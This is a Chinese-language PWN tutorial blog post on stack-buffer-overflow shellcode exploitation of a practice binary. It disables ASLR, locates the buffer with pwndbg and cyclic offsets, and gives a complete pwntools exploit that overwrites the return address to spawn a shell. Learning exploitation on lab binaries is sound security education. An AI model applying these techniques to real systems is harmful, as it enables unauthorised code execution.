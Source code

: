 ```yaml
---
title: shellcode
subtitle: 运行你自己的指令
date: 2023-08-08T05:09:08+08:00
draft: false
author:
  name: CuB3y0nd
  link:
  email:
  avatar:
description:
keywords:
license:
comment: true
weight: 0
tags:
  - PWN
  - Stack
categories:
  - PWN
hiddenFromHomePage: false
hiddenFromSearch: false
summary:
resources:
  - name: featured-image
    src: featured-image.jpg
  - name: featured-image-preview
    src: featured-image-preview.jpg
toc: true
math: false
lightgallery: false
password:
message:
repost:
  enable: false
  url:
---
```


在真正的漏洞利用中，你不太可能拥有 `win()` 函数。shellcode 是一种允许 **运行你自己的
指令** 的方法，使你能够在系统上运行任意命令。

**shellcode** 本质上是 **一系列汇编指令**，一旦我们将它输入到二进制文件中，它就会覆盖返回
地址（返回指针）以劫持代码，并执行我们自己的指令。

<!--more-->

{{<admonition type="warning">}}

我保证你可以相信我，但你永远不应该在不知道 shellcode 作用的情况下运行它。
pwntools 很安全，并且几乎拥有你需要的所有 shellcode 。

{{</admonition>}}

shellcode 成功的原因是 [冯·诺伊曼结构](https://zh.wikipedia.org/wiki/%E5%86%AF%C2%B7%E8%AF%BA%E4%BC%8A%E6%9B%BC%E7%BB%93%E6%9E%84)（当今大多数计算机使用的体系结构）不区分
数据和指令——无论你告诉它在哪里运行或运行什么内容，它都会尝试运行它。因此，
即使我们输入的是攻击指令，计算机也不知道这一点，我们可以利用它来发挥我们的优势。

{{< link href="/pwn_assets/shellcode.zip" content="shellcode.zip" title="Download shellcode.zip" download="shellcode.zip" card=true >}}

## 0x01 禁用 ASLR

ASLR 是一种安全技术，虽然它不是专门为对抗 shellcode 而设计的，但它涉及随机化
内存的某些方面，可以看我的这篇博客：[NOPs](https://www.cubeyond.net/nops/) 。这种随机化可能会使我们的 shellcode
变得不可靠，所以我们现在将 [禁用](https://askubuntu.com/questions/318315/how-can-i-temporarily-disable-aslr-address-space-layout-randomization) 它。

```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

{{<admonition type="info">}}

类似这样的功能性指令以后还会碰到更多，我建议使用 `alias` 为它们创建一个别名。
因为就算不考虑能不能记住这些指令，如果每次都手动输入那么长的指令也是一件很
浪费时间的事情。

{{</admonition>}}

{{<admonition type="warning">}}

再次强调，如果你不知道指令的作用，则永远不要运行该指令。

{{</admonition>}}

## 0x02 确定缓冲区位置

使用 `pwndbg` 调试 `vuln` ，并找出缓冲区在内存中的起始位置；这就是我们
想要将返回地址指向的位置。

```
$ pwndbg vuln
$ disass unsafe
[...]
0x0804918a <+24>:	lea    eax,[ebx-0x1ff8]
[...]
0x0804919c <+42>:	lea    eax,[ebp-0x134]
[...]
0x080491ac <+58>:	mov    ebx,DWORD PTR [ebp-0x4]
[...]
```

可以根据大小判断哪个是 **局部变量**。根据缓冲区大小是 300，可以判断出
`ebp-0x134` 很可能是缓冲区。让我们在 `gets()` 之后设置一个断点并找到确切
的返回地址。

```
$ b *0x080491a8
$ r
Overflow me
<<IM HERE>>         <== This was my input
$ x/20s $esp
[...]
0xffffd664:	"<<IM HERE>>"
[...]
```

它似乎位于 `0xffffd664` ；如果我们多次运行二进制文件，它应该保持在原来的位置
（如果没有，请确保 **禁用 ASLR！**）。

## 0x03 计算溢出 Padding

现在我们需要计算溢出 Padding 。我们将使用 De Bruijn 序列，如上一篇 [文章](https://www.cubeyond.net/de-bruijn-sequences/) 中所述。

```
$ pwndbg vuln
$ cyclic 500
<COPY THIS>
$ r
Overflow me
<<PASTE HERE>>

Program received signal SIGSEGV, Segmentation fault.
0x64616164 in ?? ()
[...]
$ cyclic -l 0x64616164
Finding cyclic pattern of 4 bytes: b'daad' (hex: 0x64616164)
Found at offset 312
```

得到溢出 Padding 是 312 字节。

## 0x04 编写 EXP

为了使 shellcode 正确，我们将把 `context.binary` 设置为我们的二进制文件；
这会获取诸如架构、操作系统和位数之类的东西，并使 pwntools 能够为我们提供
shellcode 。

```python
from pwn import *

context(os='linux', arch='amd64', log_level='debug')

context.binary = ELF('./vuln')

p = process()
```

{{<admonition type="info">}}

我们可以只使用 `process()` ，因为一旦设置了 `context.binary` 就默认假定
使用该进程。

{{</admonition>}}

现在我们可以使用 pwntools 出色的 shellcode 功能轻易的构建 shellcode 。

```python
# 构建 Shellcode
payload = asm(shellcraft.sh())
# 溢出 Padding
payload = payload.ljust(312, b'A')
# 返回地址
payload += p32(0xffffd664)
```

现在让我们将其发送出去并使用 `p.interactive()` ，它使我们能够与 shell 通信。

```python
p.sendline(payload)

p.interactive()
```

{{<admonition type="warning">}}

如果你遇到 `EOFError` ，请打印出 shellcode 并尝试在内存中查找它。
栈地址可能是错误的。

你可以参考这篇 [博客](https://www.cubeyond.net/ret2win/) 中的 hook 调试方法来解决这个问题。

{{</admonition>}}

```
$ python exp.py
[*] 'vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
[+] Starting local process 'vuln': pid 38046
[DEBUG...]
[*] Switching to interactive mode
[DEBUG...]
$ whoami
[DEBUG...]
cub3y0nd
```

## 0x05 最终 EXP

```python {title="exp.py"}
from pwn import *

context(os='linux', arch='amd64', log_level='debug')

context.binary = ELF('./vuln')

p = process()

payload = asm(shellcraft.sh())
payload = payload.ljust(312, b'A')
payload += p32(0xffffd664)

p.sendline(payload)

p.interactive()
```

## 0x06 总结

- 当提示输入时，我们注入了 shellcode
- 然后，我们通过覆盖栈上保存的返回地址以指向我们的 shellcode
来劫持代码执行
- 一旦返回地址压入 EIP 中，它就指向我们的 shellcode
- 这导致程序执行我们的指令，为我们（在本例中）提供了用于执行
任意命令的 shell
